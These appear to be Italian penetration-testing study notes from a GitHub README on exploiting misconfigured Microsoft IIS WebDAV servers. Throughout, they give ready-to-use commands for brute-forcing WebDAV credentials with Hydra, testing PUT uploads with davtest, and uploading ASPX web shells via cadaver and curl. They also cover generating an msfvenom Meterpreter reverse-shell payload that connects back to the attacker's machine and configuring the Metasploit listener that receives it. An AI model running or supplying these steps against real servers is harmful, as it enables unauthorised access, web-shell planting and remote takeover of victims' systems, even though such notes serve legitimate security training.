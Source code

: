 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# Microsoft IIS WebDAV – Introduzione e Exploit
**WebDAV (Web Distributed Authoring and Versioning)** è un protocollo composto da un set di estensioni HTTP che consentono agli utenti di modificare e gestire in modo collaborativo i file su **Microsoft IIS**. <br>
Microsoft IIS è un server web proprietario sviluppato da Microsoft, in grado di ospitare applicazioni web e siti web, in modo simile ad altri server come Apache o Nginx <br>
WebDAV espone in genere la stessa porta del sito (80/443) e supporta metodi aggiuntivi come `PROPFIND`, `MKCOL`, `PUT`. <br>

Una configurazione debole (per‑mancanza di ACL o controllo sul metodo **PUT**) consente a un attaccante di **caricare ed eseguire file arbitrari**, ottenendo RCE.

> Potremmo trovare sia `ftpd`(21) che `Microsoft IIS` (80) in esecuzione su una macchina. Questo significa che quella determinata infrastruttura usa ftp per caricare i file su Microsoft IIS quindi possiamo anche tragettare ftp.
---

## Brute‑force credenziali (opzionale)

Una volta confermata la presenza del servizio e un mancato controllo del metodo PUT durante laprecedente fase di Scansione ed Enumerazione, possiamo tentare di scoprire le credenziali di accesso usando Hydra: <br>
```bash
hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/common_passwords.txt -s 80 -f -u <IP> http-get /webdav
```

* `-L` / `-P` puntano ai file utenti / password. <br>
* `-s 80` specifica la porta. <br>
* `-f` interrompe alla prima coppia valida. <br>
* `-u` mantiene la stessa connessione. <br>

Se il server usa HTTPS, sostituisci `http-get` con `https-get` e porta 443: <br>
Se invece vuoi effettuare un login standard basta mettere `/` al posto di `/webdav` per autenticarti
> ovviamente puoi mettere qualsiasi altra directory che richiede autenticazione dopo `/`

---

## Verifica upload con credenziali

dopo aver scoperto le credenziali di accesso, analizziamoi il comportamento usando davtest:
```bash
davtest -auth <user>:<pass> -url http://<IP>/webdav`
```

Se `PUT` va a buon fine, verrà indicato “SUCCESS” per l’estensione caricata.

---

## 4 – Upload di una Web‑Shell con **cadaver**
Se il metodo PUT funziona, possiamo caricare una webshell usando `cadaver`
```bash
cadaver http://<IP>/webdav` # client WebDAV interattivo.
put C:\\webshell\\cmd.aspx` # carica la web‑shell ASPX.
```

Tutte le web shells disponibili su kali sono visualizzabili al path 
```bash
/usr/share/webshells
```

Dopo aver caricato una webshell, ricaricando la pagina del browser dov’era aperta la pagina di WebDAV, possiamo visualizzare la shell caricata quindi, cliccando su di essa per eseguirla, potremmo avere una schermata con la possibilità di inserire dei comandi

---

## 5 – Upload via curl e put
possiamo anche caricare la shell usando curl:
```bash
curl -T shell.aspx http://<user>:<pass>@<IP>/webdav/shell.aspx` # carica shell ASPX
```

e tramite il metodo put:
```bash
put </usr/share/webshells/webshell.aspx>
```

---

## 6 – Generazione Payload con **msfvenom**
é possibile generare una shell usando msfvenom: 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KaliIP> LPORT=<Port> -f aspx > shell.aspx
```

Carica `shell.aspx` via `cadaver` o `curl`; una volta richiamato, avrai la sessione Meterpreter.

---

## 7 – Listener Metasploit
Per poter ricevere una connessione reverse shell, si usa il `multi/handler` di Metasploit
```bash
use multi/handler # modulo listener generico
set payload windows/meterpreter/reverse_tcp # definisce il payload
set LHOST <KaliIP> # IP della macchina Kali
set LPORT <Port> # porta configurata nel payload
run # avvia il listener in attesa della connessione
```

e successivamente eseguiamo la shell caricata sul target con `cadaver` o `curl`

Queso processo é totalmente automatizzabile usando il modulo
```bash
exploit/windows/iis/iis_webdav_upload_asp
```

---
